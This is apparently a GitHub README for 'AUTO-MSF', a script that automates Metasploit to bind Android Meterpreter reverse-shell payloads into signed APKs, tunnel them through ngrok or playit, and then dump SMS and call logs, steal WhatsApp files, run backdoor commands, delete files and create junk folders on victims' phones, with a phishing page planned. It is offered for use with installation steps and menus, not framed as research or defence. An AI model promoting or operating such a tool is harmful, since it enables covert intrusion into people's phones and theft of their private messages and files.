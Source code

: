 
# AUTO-MSF

my simple script to automate metasploit-framweork and easy to use configration




## Features

- binding payload with host apk with signed 
- automate metasploit using its supercool resource feature
- added phishing page in payload (upcoming)
- added some malicious script (make 100s blank folder)
- encode files (encryption)


## 4 port forwarding options

- ngrok
- localhost.run
- playit service
- cloudflared
- you can use portmap also




## Installation

Note that this tool is tested on parrot and kali linux os 

```bash
  git clone https://github.com/Hacknonumus/AUTO-MSF.git
  cd AUTO-MSF
  ./install.sh
  python auto-msf.py -h
```
    
## Usage
Note that port forwarding api key and aother stuff keep in this folder
######
    
    python3 auto-msf.py -h
    usage:  
                                python3 auto-msf.py -mm
                                python3 auto-msf.py -ml
                                [Default ip and port]
                                 fhffndjfifhfhsb .ssh.io: 57329 

....SIMPLE SCRIPT TO AUTOMATE METASPLOIT-FRAMEWORK....

    optional arguments:
    -h, --help            show this help message and exit
    -mm, --metasploit     run progrgam using mm string
    -ml, --msfconsole     run metasploit console using ml string
    -S, --server          start server..
    -AS, --autorun_script
                            making autorun script

    [~] ... ONLY ANDROID MODE SUPPORT ...[~] 



    python auto-msf.py -AS
 
                            [*.a] DUMPING SMS AND CALLLOGS..                     
                            [*.b] CHANGING WALLPAPERS..         
                            [*.c] UPLOADING FILES..   
                            [*.d] EXECUTING FILES..   
                            [*.e] EXECUTING BACKDOOR CMD..  
                            [*.f] ENCODING/DECODING WHATSAPP FILES..  
                            [*.g] DOWNLOADING WHATSAPP FILES..  
                            [*.h] SOME FUN..   
                            [*.i] DELETING FILES 
                            [*.j] ENTER ANY METERPRETER COMMAND..
                            [*.0] Quit 
         
    [*] Select Commands And Type Quit(0)


    python auto-msf.py -mm
                       
           ________     ______     ______     ______   ______   ______     ________              
     |==> /_/_____/\   /_____/\   /_____/\   /_____/\ /_____/\ /_____/\   /_____/_/\ <======|
     |    \_\_____\/   \_____\/   \_____\/   \_____\/ \_____\/ \_____\/   \_____\_\/        |
     |         _____________________________________________________________________        |
     |        /____________________________________________________________________/        |
     |       / __     __                            __     _      __         __   /         |
     |      / / /    / /__    ____ _    __  __     / /    (_)    / /__      / /  /          |   
     |     / / /    / //_/   / __ `/   / / / /    / /    / /    / //_/     / /  /           |
     |    / / /    / ,<     / /_/ /   / /_/ /    / /    / /    / ,<       / /  /            |
     |   / /_/____/_/|_|____\__,_/____\__,_/____/_/____/_/____/_/|_|_____/_/  /             |
     |  /____________________________________________________________________/              |
     |     _ ______     ______     ______     ______   ______   ______    ________          |
     |    /_/_____/\   /_____/\   /_____/\   /_____/\ /_____/\ /_____/\  /_____/_/\ <=======| 
     |=>  \_\_____\/   \_____\/   \_____\/   \_____\/ \_____\/ \_____\/  \_____\_\/
                                  -:::>(instagram):::<- 
                                    

    (for android payload only )                      [*] Port Forwarding Options [*] 
        -------------------------------------                _-----------------_
    a) android/meterpreter/reverse_tcp  |                   | [1]Ngrok..        |
    b) android/meterpreter/reverse_http |                   | [2]localhost.run..|       
    c) android/meterpreter/reverse_https|                   | [3]playit service.|------|               
    d) android/meterpreter_reverse_tcp  |                   | [4]cloudflared .. |      |
    e) android/meterpreter_reverse_http |                   |_[5] Any other..  _|      |
    f) android/meterpreter_reverse_https|                   ----------------------------
    -------------------------------------                                   |___   
            [127.0.0.1:4444]---->> hospitable-country.auto.playit.gg : 57329  <--|            
            [127.0.0.1:2345]---->>  used-protest.auto.playit.gg : 48552       <--| 

        
[*] Select Port Forwarding Options...[1,2,3,4,5] OR Press Enter To Skip:~